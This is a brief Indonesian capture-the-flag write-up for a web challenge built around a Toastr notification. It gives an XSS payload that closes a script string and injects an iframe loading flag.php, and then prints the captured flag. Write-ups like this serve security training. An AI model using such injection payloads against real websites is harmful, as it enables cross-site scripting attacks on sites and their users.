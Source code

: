 Toastr adalah sebuah notifikasi yang menarik untuk di tampilkan, Sebenarnya pada web mimin juga ada toastr :D.

Link : https://web.ctf.rasyidmf.com/chal35/


Payload:
```
";</script><iframe src=flag.php></iframe>
```

Flag:
```
CTFR{15_th4t_fun_pl4y1n9_w1th_x55}
```